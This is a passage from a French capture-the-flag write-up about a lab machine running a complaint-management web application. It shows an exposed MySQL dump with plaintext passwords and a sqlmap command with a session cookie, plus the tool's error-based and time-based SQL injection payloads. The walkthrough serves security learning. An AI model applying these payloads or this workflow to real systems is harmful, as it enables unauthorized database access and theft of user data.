 Il existe [deux vulnérabilités](https://www.exploit-db.com/exploits/42968/) pour ce logiciel. On pourrait qualifier la première de backdoor vu qu'il s'agit d'un compte hardcodé. Malheureusement le mot de passe a visiblement été édité pour le challenge.  

La seconde est une faille d'injection SQL pour laquelle il faut être authentifié.  

Avec un buster on trouve différents dossiers, en particulier le dossier *database* dispose d'un listing avec un fichier *complain\_db.sql* qui s'en trop de surprises est un dump MySQL de la base de données.  

On y trouve plusieurs tables avec des utilisateurs : *tbl\_customer*, *tbl\_supplier* et *tbl\_engineer*. Cette dernière semble plus intéressante car les utilisateurs semblent avoir plus de privilèges.  

Les mots de passe sont stockés en clair dans la base :  

```plain
INSERT INTO `tbl_engineer` (`eid`, `ename`, `epass`, `address`, `email`, `e_mobile`, `date_time`) VALUES
(6, 'Amol sarode', 'amol', '12/c, camp, pune', 'amol.sarode@gmail.co', '2541258452', '2011-02-02 23:36:51'),
(5, 'Ramiz Khan', 'ramiz', '10, merta tower', 'ramiz@gmail.com', '9854251425', '2011-02-02 23:36:09'),
(4, 'Mubarak Bahesti', 'mubarak', '290, asif nagar, pune', 'mubarak@gmail.com', '9856323568', '2011-02-02 23:15:20');
```

Civet de lapin
--------------

On peut dès lors se connecter avec l'un des comptes, récupérer le cookie (via extension dédiée ou via les outils de développement du navigateur) puis utiliser ce cookie dans sqlmap pour exploiter la vulnérabilité mentionnée plus tôt :  

```plain
devloop@kali:~$ sqlmap -u 'http://10.10.10.71:8080/complain/view.php?mod=admin&view=repod&id=plans' -p id --cookie "PHPSESSID=nj9rojjcqt74jeidet86csire6" --dbms mysql
GET parameter 'id' is vulnerable. Do you want to keep testing the others (if any)? [y/N] n
sqlmap identified the following injection point(s) with a total of 1363 HTTP(s) requests:
---
Parameter: id (GET)
    Type: error-based
    Title: MySQL >= 5.0 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (FLOOR)
    Payload: mod=admin&view=repod&id=plans WHERE 8103=8103 AND (SELECT 9626 FROM(SELECT COUNT(*),CONCAT(0x716a627071,(SELECT (ELT(9626=9626,1))),0x71766a6271,FLOOR(RAND(0)*2))x FROM INFORMATION_SCHEMA.PLUGINS GROUP BY x)a)-- qhHP

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 AND time-based blind
    Payload: mod=admin&view=repod&id=plans WHERE 7037=7037 AND SLEEP(5)-- JjKS
---
```

Il apparaît assez vite que les requêtes sont exécutées avec l'utilisateur root de MySQL. On ne peut malheureusement pas dumper directement la base (via connexion au port 3306) car l'utilisateur est seulement autorisé à se connecter en local. Pas trop grave quand on a sqlmap sous la main.  
